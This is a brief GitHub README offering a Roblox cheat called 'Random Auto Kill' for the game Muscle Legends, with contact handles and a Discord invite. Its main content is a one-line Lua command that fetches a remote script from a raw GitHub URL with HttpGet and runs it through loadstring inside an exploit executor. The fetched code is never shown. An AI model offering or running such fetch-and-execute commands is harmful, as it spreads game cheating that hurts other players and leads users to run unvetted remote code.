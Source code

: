 # Random Auto Kill ⬇️
**disclaimer:**
1. this is for muscle legends only
2. for roblox: exploit
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Pxrson/auto-kill/refs/heads/main/idk.lua",true))()
```

---

**info:**
1. discord:
.pxrson

3. roblox(s):
NW_GlitcherNu
KSWalt16
DrizzyyDrake69
pxrsonroblox
spaghettimeatbaiiz

4. help:
find help in [my server](https://discord.gg/tAA9bzYyBx)
